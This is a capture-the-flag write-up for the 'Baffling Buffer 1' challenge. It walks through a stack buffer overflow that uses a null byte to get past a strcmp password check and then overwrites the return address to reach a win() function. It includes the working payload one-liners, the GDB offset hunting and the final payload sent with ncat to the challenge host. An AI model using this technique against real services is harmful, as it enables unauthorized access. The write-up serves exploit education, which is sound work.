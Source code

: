 # Baffling Buffer 1 - 225pts
After pointing out the initial issue, the developers issued a new update on the login service and restarted it at host1.metaproblems.com 5151. Looking at the binary and source code, you discovered that this code is still vulnerable.
<hr>

Looking at the source code, we notice that the flag is in an entirely different function, 'win()'. This means we will have to use a shellcode overflow in order to call that function. If we look at the 'vuln()' function, we notice a 'strcmp' between the buffer and "Sup3rs3cr3tC0de". Per the C docs:

"This function starts comparing the first character of each string. If they are equal to each other, it continues with the following pairs until the characters differ or until a terminating null-character is reached."

We can try to trick the 'strcmp' call by adding a null-terminating character to "Sup3rs3cr3tC0de" and then adding our overflow data. 

First, I simply ran `bb1` with "Sup3rs3cr3tC0de", a null-terminator, and some extra characters to see if it would segfault.

```shell
python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*50)" | ./bb1
```

As I thought, it segfaulted. Thus, we can modify our input to write over the return value and access the 'win()' function. First, we have to find that memory address though. This can be done using GDB.
```shell
$ gdb bb1
(gdb) break main
(gdb) run
(gdb) info address win
>> Symbol "win" is at 0x401172 in a file compiled without debugging.
```

Now, it's a bit of trial and error to find the correct value to overflow. We also need to enable core dumps that way we can check where exactly the program segfaults at.

```shell
$ ulimit -c unlimited
$ python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*41)" | ./bb1
>> Access granted!
>> zsh: done                              python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*41)" | 
>> zsh: segmentation fault (core dumped)  ./bb1
$ gdb -q -c core -ex quit
>> Core was generated by `./bb1'.
>> Program terminated with signal SIGSEGV, Segmentation fault.
>> #0  0x0000000000400061 in ?? ()
```

From here, we can see that the program terminates at 0x400061. 61 is the ASCII representation of 'a'. So, we have one too many A's being input. All we have to do is change to print 40 a's and then append our address in hex.

```shell
$ python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*40+'\x72\x11\x40')" | ncat host1.metaproblems.com 5151
>> Access granted!
```

And we retrived our flag.
